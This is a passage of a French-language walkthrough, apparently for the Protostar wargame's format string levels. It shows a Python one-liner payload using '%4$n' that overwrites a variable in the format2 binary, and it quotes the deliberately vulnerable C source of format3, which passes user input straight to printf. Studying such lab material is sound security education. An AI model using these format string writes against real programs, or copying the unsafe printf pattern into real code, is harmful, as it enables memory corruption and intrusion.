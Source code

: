 Toujours une variable à écraser mais cette fois une valeur spécifique est attendue.

```
user@protostar:/opt/protostar/bin$ objdump -t format2 | grep target
080496e4 g     O .bss   00000004              target
```

Autre particularité, la lecture se fait via l'entrée standard :

```bash
user@protostar:/opt/protostar/bin$ ./format2 
AAAA%4$8x
AAAA41414141
target is 0 :(
```

On doit placer la valeur `64` dans `target`. On place donc l'adresse de `target` suivie de 60 caractères `A` puis le format d'écriture de caractères lus :

```bash
user@protostar:/opt/protostar/bin$ python -c 'import struct; print struct.pack("<I", 0x080496e4) + "A"*60 + "%4$n"' > /tmp/input
user@protostar:/opt/protostar/bin$ ./format2 < /tmp/input 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have modified the target :)
```

## Level 3

Toujours grosso-modo la même chose mais cette fois la valeur à écraser est bien plus grosse et seulement 512 octets maximum sont lus sur l'entrée standard :

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
